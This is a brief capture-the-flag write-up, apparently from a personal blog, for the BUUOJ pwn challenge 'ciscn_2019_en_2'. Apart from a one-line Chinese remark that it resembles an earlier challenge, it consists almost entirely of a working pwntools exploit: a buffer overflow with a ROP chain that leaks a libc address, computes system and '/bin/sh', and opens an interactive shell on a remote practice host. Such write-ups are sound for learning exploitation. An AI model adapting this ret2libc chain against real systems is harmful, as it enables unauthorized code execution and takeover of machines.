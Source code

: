 ```yaml
---
title: "Ciscn_2019_en_2"
description: ""
date: 2023-04-07T00:20:36+08:00
lastmod: 2023-04-07T00:20:36+08:00
draft: false
images: []
type: docs
weight: 988
toc: true
---
```


## 0x01 分析

和ciscn\_2019\_c\_1差不多，就加密变了一点

## 0x02 Exploit

```python
from pwn import*
from LibcSearcher import*
# context.log_level = 'debug'
# o = process("./pwn")
o = remote("node4.buuoj.cn", 25752)
elf = ELF("./pwn")
# libc = elf.libc
puts_plt = elf.plt['puts']
gets_got = elf.got['gets']
encrypt = elf.sym['encrypt']
pop_rdi = 0x0000000000400c83

# leak libc
payload = b'aaaaaaa\x00' + b'a'*80
payload += p64(pop_rdi) +p64(gets_got) + p64(puts_plt) + p64(encrypt)
o.sendline(b'1')
o.sendline(payload)
o.recvuntil("ooooooo\n")    # aaaaaaa加密后的结果
gets_addr = u64(o.recv(6) + b"\x00\x00")
libc = LibcSearcher("gets", gets_addr)
libc_base = gets_addr - libc.dump("gets")
log.info(hex(libc_base))
sys_addr = libc_base + libc.dump("system")
bin_sh = libc_base + libc.dump("str_bin_sh")

# attack
payload = b'aaaaaaa\x00' + b'a'*80
payload += p64(pop_rdi) + p64(bin_sh) +  p64(0x400B27) + p64(sys_addr)
o.sendline(payload)

o.interactive()

```

![9cc1877c63fa60162b541630a52b19c1](images/9cc1877c63fa60162b541630a52b19c1.png)  

自行调试
